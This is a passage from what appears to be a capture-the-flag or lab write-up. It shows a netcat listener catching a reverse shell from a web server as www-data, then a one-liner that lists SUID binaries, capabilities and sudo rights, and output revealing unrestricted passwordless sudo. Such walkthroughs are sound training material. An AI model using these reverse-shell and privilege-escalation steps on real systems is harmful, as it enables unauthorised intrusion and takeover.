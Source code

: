 (note add -c and place reverse shell in quotes to explicitly tell bash to start a new shell and pass the string as a command to be interpreted by the new bash shell)

There we go, reverse shell received!

```┌──(kali㉿kali)-[~]
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.151.226] from (UNKNOWN) [10.10.111.28] 53064
bash: cannot set terminal process group (1015): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-111-28:/var/www/html$
```


## Post-Exploitation - Privilege escalation

Instead of searching for flags right away I decided to escalate to root as soon as I got my shell, starting with the low-hanging fruit. Using an easy one-liner that I made which goes through SUID binaries, capabilities and sudo privileges.

One-liner:

```
printf "\n[*] SUID\n"; find / -perm -4000 2>/dev/null; printf "\n[*] capabilities\n"; getcap -r / 2>/dev/null; printf "\n[*] sudo -l\n"; sudo -l
```


Output from from the command:

``` 
[*] SUID
/snap/core/17200/bin/mount
[snipped out a lot of useless binaries]
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic

[*] capabilities
/snap/core20/2318/usr/bin/ping = cap_net_raw+ep
/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

[*] sudo -l
Matching Defaults entries for www-data on ip-10-10-111-28:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-111-28:
    (ALL) NOPASSWD: ALL
```
